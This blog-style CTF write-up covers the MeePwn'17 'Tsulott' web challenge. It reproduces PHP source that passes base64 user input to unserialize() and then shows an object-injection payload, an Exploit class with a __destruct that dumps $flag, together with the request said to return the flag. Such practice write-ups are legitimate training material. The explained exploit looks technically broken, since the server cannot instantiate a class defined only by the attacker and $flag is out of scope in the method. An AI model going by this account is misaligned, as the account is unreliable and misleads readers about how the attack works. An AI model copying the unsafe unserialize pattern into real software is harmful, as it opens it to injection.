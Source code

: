 ```yaml
---
layout: post
title:  "Meepwn Tsulott"
date:	2017-09-28 14:19:38 +0200
author: foo
categories: ctf meepwn write-up
ref: meepwn-web
---
```


It's been a while since I last wrote something here, so maybe it's time to fix that...

---

**NOTE: If you want to try this challenge first by yourself,
[here](/assets/posts/2017-09-28-meepwn-web/code.tar.gz) are all the materials
needed to do it (note that you'll have to set up a server that supports PHP, as it won't
work otherwise).**

---

This is the write-up for the only challenge I completed on the
[MeePwn'17 CTF](https://ctftime.org/event/486). For some reason, the page kept telling me
to "stop spamming flags" while trying to submit the solution; so I simply gave up and
just got into something else.

Anyway, the first challenge I looked into was the one titled _Tsulott_. The webpage where
we have to get the flag from looks beautiful:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/first_recon.png"
	title="Webpage"
	alt="Webpage's first recon"
%}

The first thing to do is to look at the HTML, as most of this challenges are simple and,
usually, there are comments with clues. In this case, there's a comment at the end of the
file that makes us think that a debug option exists and someone forgot to disable it in
production:
```html
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- GET is_debug=1 -->
</body>
```

Things like this can happen (not as obvious as this one, but still...), and we can take
advantage of someone's mistake by simply requesting `[endpoint]/?is_debug=1`. _Violà_,
here is the code of the server:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/code.png"
	title="Debug option set to 1"
	alt="Server's response when 'is_debug' is set to 1"
%}

Now we have to examine this new PHP code:

{% highlight php linenos %}
<?php
    class Object
    {
        var $jackpot;
        var $enter;
    }
?>


<?php

    include('secret.php');

    if (isset ($_GET ['input']))
    {
        $obj = unserialize (base64_decode ($_GET ['input']));

        if ($obj)
        {
            $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);

            if ($obj->enter === $obj->jackpot)
            {
                echo "<center><strong><font color='white'>"
                    . "CONGRATULATION! You Won JACKPOT PriZe !!!"
                    . "</font></strong></center>"
                    . "<br><center><strong>"
                    . "<font color='white' size='20'>"
                    . $obj->jackpot
                    . "</font></strong></center>";

                echo "<br><center><strong><font color='green' size='25'>"
                    . $flag . "</font></strong></center><br>";

                echo "<center><img "
                    . "src='http://www.relatably.com/m/img/"
                    . "cross-memes/5378589.jpg' /></center>";
            }
            else
            {
                echo "<br><br><center><strong>"
                    . "<font color='white'>Wrong! True Six "
                    . "Numbers Are: </font></strong></center>"
                    . "<br><center><strong><font color='white'"
                    . " size='25'>"
                    . $obj->jackpot
                    . "</font></strong></center><br>";
            }
        }
        else
        {
            echo "<center><strong><font color='white'>- Something wrong,"
                . " do not hack us please! -</font></strong></center>";
        }
    }
    else
    {
        echo "";
    }
?>

<?php
    if (isset ($_GET ['gen_code']) && !empty ($_GET ['gen_code']))
    {
        $temp = new Object;
        $temp->enter = $_GET ['gen_code'];

        $code = base64_encode (serialize ($temp));

        echo '<center><font color=\'white\'>Here is your code,"
            . " please use it to Lott: <strong>'
            . $code. '</strong></font></center>';
    }
?>

<?php
    if (isset ($_GET ['is_debug']) && $_GET ['is_debug'] === '1')
    {
        show_source (__FILE__);
    }
?>
{% endhighlight %}



After a couple of minutes reading this code, we can see that there's a flaw on the way
the user input is handled, as it's not sanitized (on line 16). We can take advantage of
the unserialization to
[inject an object](https://www.owasp.org/index.php/PHP_Object_Injection), encoded in
base64 and passed using the parameter `input`.

This vulnerability works as follows:

  - We create a class, `Exploit`, that implements only one method: `__destruct ()`. This
	method will be called when the object is destroyed. The code inside it can be as
	simple as `var_dump ($flag);`.

  - An object, instance of the new class, is serialized and encoded in Base64. This will
	be the value of the parameter `input`.

  - The server recieves the Base64 encoded string and, after decoding it, calls the
	`unserialize ()` method. This method creates a new object with the information
	stored on this string. In this case, an instance of our new class is created and,
	upon its destruction, invokes the method `__destruct ()` that dumps the content
	of the flag.

Here's the exploit creation and the final result:
```php
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >
```

When we request `/?input=Tzo3OiJFeHBsb2l0IjowOnt9`, we get the flag:


{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/flag.png"
	title="Exploit in action"
	alt="Server's response to the exploit, giving us the flag"
%}

Finnaly, the flag is `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`.

I wish I could've tried the rest of the challenges; but, unfortunately, the page didn't
let me submit the flags. Nevertheless, I had fun with this challenge and learned
something, so at least I left the CTF with a good impression.

